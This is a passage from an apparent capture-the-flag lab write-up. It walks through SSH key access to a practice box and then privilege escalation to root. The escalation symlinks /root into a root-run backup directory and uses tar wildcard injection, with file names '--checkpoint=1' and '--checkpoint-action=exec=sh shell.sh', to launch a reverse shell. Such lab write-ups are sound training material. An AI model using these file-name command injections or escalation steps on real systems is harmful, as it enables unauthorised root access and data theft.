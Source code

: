 We will generate a SSH key:
```markdown
ssh-keygen
```

This will create a **id_rsa** file which is the private key and **id_rsa.pub** which contents we will write into the the _authorized_keys_ file, so the box trusts the connection from our machine.
```markdown
ssh -i id_rsa alekos@10.10.10.21
```

Now we are logged in as _alekos_.

## Privilege Escalation to root

In the home directory of _alekos_ are the folders _/development_ and _/backup_. The backup folder has compressed files in it which are created in a 5 minute interval and are owned by root. They contain the files of the development folder.

We can create a symbolic link to the _/root_ folder, so it gets compressed the next time and we will have permission to read the files in there.
```markdown
ln -s /root/ development
```

The next backup that will run, will write the contents of the _/root_ folder into the compressed file.
```markdown
tar -xvf dev-1573924201.tar.gz
```

To get a root shell we can abuse the `tar` command by giving it parameters with files.
Because the `tar` command compresses all files with the wildcard character, it will interpret these files as parameters and will execute them.
```markdown
touch -- --checkpoint=1
touch -- '--checkpoint-action=exec=sh shell.sh'
```

With these parameters we can execute binaries with `tar`.
The script _shell.sh_ is the same reverse shell as we used before but wants to connect on UDP port 9002.

The compression script will execute after 5 minutes and our listener will start a session as root!  
